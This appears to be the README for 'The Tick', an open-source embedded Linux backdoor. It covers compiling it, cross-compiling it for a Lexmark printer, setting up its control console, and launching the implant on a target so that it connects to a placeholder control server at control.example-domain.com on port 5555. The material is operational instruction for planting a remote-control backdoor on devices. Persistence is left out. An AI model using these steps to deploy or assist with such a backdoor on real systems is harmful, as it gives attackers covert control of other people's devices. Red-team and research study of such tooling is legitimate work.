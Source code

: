 # The Tick

A simple embedded Linux backdoor.
![Screenshot 1](doc/screenshot-big.png "Screenshot")

## Compiling

The Tick depends only on libcurl, so make sure you have the corresponding development package. For example on Debian based distributions you would do the following:

```
sudo apt-get install libcurl-dev
```

Once the dependencies are installed just run the makefile:

```
make clean
make
```

When cross-compiling for supported platforms, the dependency resolution and compilation is done automatically for you. Currently the only supported cross-compiling platform is the Lexmark CX310DN printer. Consult the sources for more details.

## Installing

Obtaining persistence on the backdoor will depend heavily on the target platform, and therefore is not documented here.

The control console requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

In most Linux desktop environments the following "Tick.desktop" file will create an icon you can double click to run the console:

```
[Desktop Entry]
Encoding=UTF-8
Value=1.0
Type=Application
Name=The Tick
GenericName=The Tick
Comment=An embedded Linux backdoor
Icon=/opt/thetick/doc/logo.png
Exec=/opt/thetick/tick.py
Terminal=true
Path=/opt/thetick/
```

The exact location for the Tick.desktop file may vary across Linux distributions but generally placing it in the desktop should work. Make sure to edit the path to wherever you downloaded The Tick (/opt/thetick in the above example).

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc control.example-domain.com 5555
```

At the control server, you may want to run the console inside a GNU screen instance or similar. Here are a few screenshots illustrating what the console is capable of:

Command line switches
![Screenshot 2](doc/screenshot-banners.png "Screenshot")

Interactive console help
![Screenshot 3](doc/screenshot-help.png "Screenshot")
